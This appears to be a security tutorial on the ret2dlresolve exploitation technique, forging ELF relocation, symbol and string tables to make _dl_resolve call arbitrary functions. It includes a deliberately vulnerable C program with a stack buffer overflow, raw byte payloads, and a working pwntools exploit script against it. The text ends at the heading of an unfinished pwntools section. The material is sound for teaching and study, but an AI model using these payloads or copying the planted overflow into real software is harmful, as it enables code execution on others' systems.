

Introduction
This is a highly sophisticated attack which leverages the way dynamic library functions are resolved at runtime in order to resolve an arbitrary procedure and invoke it, bypassing ASLR and requiring no leaks.
To understand the following content, you must know a lot about dynamic linking with ELF files.
Theory
It is possible to use _dl_resolve to call any external function by creating a fake relocation table, symbol table, string table, and GOT. _dl_resolve performs no upper boundary checks on the relocation argument, which means that we can make it arbitrarily large and thus point it to our fake relocation table. From there, we can do the same with the rest of the offsets. It does, however, check a few other things which we will need to work around.
Because of the checks that _dl_resolve performs, the r_info must be divisible by 0x18. The distance between the real symbol table and our fake one must be divisible by 0x18 and fit in 32 bits after this division. This practically prevents us from using the stack on 64-bit systems to store our fake tables and we will need to utilise the .bss section, which is closer to the real symbol table in the executable. Additionally, r_info must end in 0x7.
For the sake of simplicity, all of the fake tables will only contain one entry. Once we have the fake symbol table set up, we need to set st_other to 0 and st_name to the distance between the real string table and our fake one, which can in this case be a single null-terminated string. Next, r_info must be populated with (( RealToFakeSymbolTableOffset / 0x18 ) << 32 ) | 0x7, where RealToFakeSymbolTableOffset is the 0x18 aligned distance between our fake and real symbol tables. Do not worry about all the bit-wise operations - these are taken care of by a few macros in _dl_resolve. r_offset on the other hand, must contain the distance between our fake global offset table and the ELF header.
The relocation argument should store the offset between the start of the real relocation table and the beginning of the fake relocation table divided by the size of one relocation entry and should be put at the top of the stack. Consequently, if gaining code execution through a stack buffer overflow, the relocation argument should follow the malicious return address.
Manual exploitation
#include <stdio.h>
#include <stdlib.h>
char message[128];
void SendMessage()
{
char sender[20];
printf("Enter the message: \n");
fgets(message, 128, stdin);
printf("Enter the sender name: \n");
fgets(sender, 0x40, stdin);
}
int main()
{
SendMessage();
printf("Message sent!");
return 0;
}
Manually performing this exploit is extremely cumbersome, so in addition to the manual exploitation, I will also show you a neat module that pwntools contains for this exact purpose. Anyway, the fake tables should be set in the following way:
Relocation argument:
-
reloc_arg = (FakeRelocationTable - RealRelocationTable) / sizeof(Relocation Entry) -
must be divisible by the size of the relocation entry:
Elf32_Rel: 8 bytesElf32_Rela: 12 bytesElf64_Rel: 16 bytesElf64_Rela: 24 bytes
Fake relocation table:
r_offset = FakeGOT - ElfHeader[+0x8] r_info = (( (FakeSymbolTable - RealSymbolTable) / 0x18 ) << 32 ) | 0x7- the distance between the fake and the real symbol table must be divisible by 0x18, so padding might be required
[+0x10] r_addend = 0 (doesn't matter)
Fake symbol table:
[+0x18] st_name = FakeStringTable - RealStringTable[+0x20] st_info = 0 (doesn't matter)[+0x21] st_other = 0
Fake string table:
[+0x22] function name = system\x00 (or any other function)
The above offsets are from the beginning of the fake relocation table and are suited to x64. You will have to change them for x86 based on the size of the struct fields.
For any arguments you want to pass to the function, you will either need to use shellcode in your initial payload buffer or utilise ROP.
Consequently, the payload for the message is
"\x00\x00\x00\x00\x00\x00\x00\x00\x99\x40\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x88\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x42\x42\x42\x42\x42\x42\x42\x42\xda\x3b\x00\x00\x00\x00\x00\x00\x00\x00abort\x00"
The actual buffer that will be overflowed is the sender buffer the payload for it looks like this:
"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x30\x50\x55\x55\x55\x55\x00\x00\x6d\x02\x00\x00\x00\x00\x00\x00"
The last bytes are the value of the relocation argument and the ones before are the address of PLT0.
Indeed, running this exploit results in the programme's abortion through the abort function (you can check by the exit code).
from pwn import *
program = process("./dl_resolve")
print(program.recvlineS())
program.sendline(b"\x00\x00\x00\x00\x00\x00\x00\x00\x99\x40\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x88\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x42\x42\x42\x42\x42\x42\x42\x42\xda\x3b\x00\x00\x00\x00\x00\x00\x00\x00abort\x00")
print(program.recvlineS())
program.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x30\x50\x55\x55\x55\x55\x00\x00\x6d\x02\x00\x00\x00\x00\x00\x00")
program.interactive()

The abort procedure takes no arguments which made manual exploitation bearable, however, when you want to invoke a function with parameters, such as system, you will need to either execute additional shellcode before jumping to PLT0, or build a ROP chain. If you value your life, never exploit this manually.
Exploiting with pwntools
pwntools has an awesome module for performing this exploit.